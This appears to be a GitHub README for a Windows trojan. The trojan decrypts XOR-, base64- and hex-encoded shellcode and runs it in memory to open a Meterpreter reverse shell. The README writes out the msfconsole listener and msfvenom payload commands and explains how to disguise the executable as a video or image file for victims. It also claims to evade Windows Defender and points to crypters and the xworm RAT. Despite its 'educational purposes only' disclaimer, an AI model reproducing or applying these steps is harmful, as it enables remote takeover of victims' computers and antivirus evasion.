

# Encrypted Local Process injection Trojan
Malware that creates a process and injects a shellcode that opens a reverse shell. Shellcode encrypted using xor, base64 and hexadecimal encoding, undetected by Windows defender. 
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.

# 💻 Code
Simple shellcode execution technique in which the payload is decrypted, copied into memory, and executed in the same process without writing it into disk. Similar to my other trojan, [Self injection](https://github.com/Hue-Jhan/Encrypted-Trojan-Undetected), but slightly different.

### 1) Listener and payload:
First, on the attacker's machine i used a classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

The payload is a simple msfvenom reverse-shell shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked. Once the victim runs the exe, a new session will pop up on metasploit, where you can create a shell and work towards privilege escalation.

### 2) Encrypter:

The encryptor takes the shellcode (which in this code is just a windows message box that says xd lol) and obfuscates it using 3 layers of encryption:
- First we encode binary data into Base64, try to use a custom base64_chars set instead of the standard Base64 alphabet to obfuscate more;
- Secondly we apply XOR encryption using a single-byte key;
- Then we convert it into its hexadecimal string representation and we get the final encrypted shellcode.

### 3) Injector:

The actual injection process works like this:
- First we decode the shellcode by doing the opposite of what we did in the encrypter, make sure to use the same xor key;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then we copy the shellcode into the newly allocated memory and we make sure that the allocated memory has the correct permissions to execute the shellcode;
- It creates a new thread at the address of ```allocated_mem```, which contains and executes the shellcode as if it were a normal function.

Finally we wait for the created thread to finish executing before freeing the memory and the buffers.

# 🛡 AV Detection



Just like my previous trojans, it's currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.
Again Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft recognizes the malware.... it should be the exact opposite but idk.

You can still make it fully undetectable by using other encrypting softwares like Soggoth or Supernova or idk, but at this point just use a much more known rat like xworm.
